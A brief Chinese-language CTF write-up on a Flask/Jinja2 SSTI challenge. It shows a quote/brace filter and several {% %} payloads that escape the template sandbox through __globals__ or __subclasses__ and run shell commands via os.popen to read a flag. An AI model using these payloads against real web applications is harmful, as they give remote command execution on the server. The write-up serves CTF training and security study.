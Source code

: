 ## 分析

这道题就是一个`python`的`SSTI`，不过过滤了`<>'"{{`这些符号

```python
def get_db():
    db = getattr(g, '_database', None)
    if db is None:
        db = g._database = sqlite3.connect('/tmp/ninjas.db')
        db.isolation_level = None
        db.row_factory = sqlite3.Row
        db.text_factory = (lambda s: s.replace('{{', '').
            replace("'", '&#x27;').
            replace('"', '&quot;').
            replace('<', '&lt;').
            replace('>', '&gt;')
        )
    return db
```

所以这里我们需要用`{%%}`来解题


`payload` 如下
```python
name={% if session.update({request.args.key:self._TemplateReference__context.cycler.__init__.__globals__.os.popen(request.args.command).read()}) == 1 %}{% endif %}&key=leader&command=cat+flag*


name={%print%20session.update({dict(a=1)|list|last:1.__class__.__base__.__subclasses__()[-6].__init__.__globals__.os.popen(request.args.xxx).read()})%}&xxx=cat%20flag*

{%25+include+request.application.__globals__.__builtins__.__import__(request.args.os).popen(request.args.cmd).read()+%25}&os=os&cmd=cat+flag*   //这个会报错

name={%25include%201.__class__.__base__.__subclasses__()[-6].__init__.__globals__.os.popen(request.args.xxx).read()|string%25}&xxx=cat%20f*

{% if session.update({request.args.key:request.application.__globals__.__builtins__.__import__(request.args.os).popen(request.args.cmd).read()})==1 %}{%endif%}

```

# 参考链接

[https://lexsd6.github.io/2020/03/27/python%20%E5%85%B3%E4%BA%8E%E6%B2%99%E7%9B%92%E9%80%83%E9%80%B8%E7%9A%84%E6%80%9D%E8%80%83/](https://lexsd6.github.io/2020/03/27/python%20%E5%85%B3%E4%BA%8E%E6%B2%99%E7%9B%92%E9%80%83%E9%80%B8%E7%9A%84%E6%80%9D%E8%80%83/)

[https://lexsd6.github.io/2020/11/27/%E5%85%B3%E4%BA%8Ejinja%E7%89%B9%E6%80%A7%E5%AF%B9ssti%E7%9A%84bypass%E7%9A%84%E5%BD%B1%E5%93%8D/](https://lexsd6.github.io/2020/11/27/%E5%85%B3%E4%BA%8Ejinja%E7%89%B9%E6%80%A7%E5%AF%B9ssti%E7%9A%84bypass%E7%9A%84%E5%BD%B1%E5%93%8D/)
